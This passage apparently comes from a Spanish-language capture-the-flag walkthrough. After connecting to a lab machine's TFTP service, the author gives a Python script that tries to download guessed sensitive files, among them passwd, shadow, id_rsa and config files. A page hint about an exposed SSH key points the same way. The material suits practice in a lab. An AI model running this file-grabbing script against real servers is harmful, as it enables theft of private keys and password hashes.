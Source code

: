 Veremos que por `UDP` tenemos los puertos `tftp` y `dhcpc`, pero el que mas nos interesa es el de `tftp`, por lo que haremos lo siguiente:

```shell
tftp <IP>
```

Y veremos que funciona, estaremos dentro, pero no podremos listar ni nada de eso, por lo que vamos a realizar un poco de escaneo probando suerte con nombre de archivos que pueden ser importantes si estuvieran en el directorio.

> scannTFTP.py

```python
#!/bin/python3

import os
import subprocess

tftp_server = "192.168.28.20"
wordlist = [
    "user.txt", "root.txt", "hosts", "config.txt", "backup.conf", "index.html",
    "robots.txt", "passwd", "shadow", "startup-config", "network.conf",
    "id_rsa", "id_rsa.pub", ".bashrc"
]

for filename in wordlist:
    print(f"[+] Intentando descargar: {filename}")
    try:
        result = subprocess.run(
            ["tftp", tftp_server, "-c", "get", filename],
            capture_output=True,
            timeout=2  # ⏱️ Si tarda más de 2 segundos, salta TimeoutExpired
        )
        if b"Error" not in result.stdout and os.path.exists(filename):
            print(f"    [✓] {filename} descargado.")
        else:
            print(f"    [-] No disponible o acceso denegado.")
    except subprocess.TimeoutExpired:
        print(f"    [✗] Timeout: {filename} tardó demasiado (posible archivo inexistente).")
    except Exception as e:
        print(f"    [!] Error con {filename}: {e}")
```

Pero recordemos que cuando entramos en la pagina nos pone esto:

```
alexia, Your id_rsa is exposed, please move it!!!!!
Im fighting regarding reverse shells!
-nobody
```

Por lo que podremos deducir que puede haber algun `id_rsa`, pero probaremos a utilizar el script por si descubrieramos algo mas.

```shell
python3 scannTFTP.py
```
